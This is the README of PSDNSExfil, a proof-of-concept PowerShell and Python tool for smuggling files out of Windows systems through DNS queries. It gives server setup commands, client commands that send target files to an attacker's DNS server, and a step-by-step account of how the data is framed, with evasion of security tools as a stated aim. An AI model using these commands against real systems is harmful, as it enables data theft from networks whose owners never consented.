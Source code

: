 # PSDNSExfil
This is a proof of concept tool to exfiltrate data using plain DNS protocol.
I wanted to have a native PowerShell tool that allowed me to exfiltrate files from client's Windows systems. I wanted to program it myself to learn, mostly, as I know there are many other tools out there, but I did it because I could and I wanted a tool that would not be flagged as malicious due to it being publicly widespread.


## Usage
There is a client and a server folder. Self-explanatory for now.
The client is written in PowerShell, and the server is python using scapy as the main way to listen for DNS traffic

### Server 
You can run the server using Docker like this (Have in mind you need the privileges to listen in port 53/tcp and udp, which is a privileged port):
```bash
docker build . -t psdnsexfilserver
docker run -it --rm psdnsexfilserver -h
# Map the DNS ports and a volume to keep the files you exfiltrate from the client-side
mkdir exfiltrated
docker run -it --rm -p53:53 -p53:53/udp  -v $(pwd)/exfiltrated:/exfiltrated psdnsexfilserver -d t.co -o /exfiltrated
# If you want to receive encrypted data with the password 'Strong_Password_yes_123' use:
docker run -it --rm -p53:53 -p53:53/udp  -v $(pwd)/exfiltrated:/exfiltrated psdnsexfilserver -d t.co -o /exfiltrated -e AES -a Strong_Password_yes_123
```

Or just install with pipfile:
```bash
apt install pip
pip install pipenv
pipenv install .
pipenv shell
./fultonserver.py -h
```

### Client 
Copy the folder "client" to your target computer, access it and use the commands available, e.g.: 
```ps1
# Get help, buddy
.\Fulton.ps1 -?
# Exfiltrate a file 
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns>
# Efiltrate a file without zipping it first
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns> -DontCompress
# Exfiltrate a file encrypting it with AES first (you need to inform your fultonserver about the encryption as well with the flag -e ENCRYPTION and -a PASSWORD). Disclaimer: Do not take this encryption or the XOR one seriously, take it more as an obfuscation method.
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns> -EncryptionMethod AES -Password Strong_Password_yes_123
```

# How It Works
This is the pseudocode of the process on the client-side:

1. If compression is desired, it compress the file as ZIP and move it to the %TEMP% dir of the workstation.
2. If encryption is desired, it encrypts the contents of the file with the desired algorithm. Two algorithms are now supported AES or XOR. (Fun note: XOR is not secure at all, as it will leak the password used for encryption when large portions of the data contains zeros (0). You can see in the figures at the end of this list with the raw contents of an encrypted file with XOR).
3. Then calculates the number of queries required for the data. Then set the length into the metadata frame.
4. When the file is prepared, the script generates the metadata frames:
5. If the file was compressed, the script will set the flag "Compressed=1" in the Metadata – Hash frame.
6. If the file was encrypted, set the flag "Encrypted=1" (AES) or "Encrypted=2" (XOR) in the Metadata – Hash frame.
7. Add the length to the Metadata – Hash frame.
8. Generates the Metadata – Hash File Name frame.
9. Add the two metadata frames (hash frame and file name frame) to an array of queries.
10. Read the contents of the file and generates all the required queries. Then add these queries to the array.
11. If threading is desired create with the cmdlet [Start-Job](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-7.4&viewFallbackFrom=powershell-7.2) a job for each thread. The job will use the cmdlet [Resolve-DnsName](https://learn.microsoft.com/en-us/powershell/module/dnsclient/resolve-dnsname?view=windowsserver2022-ps) to carry out the DNS queries.
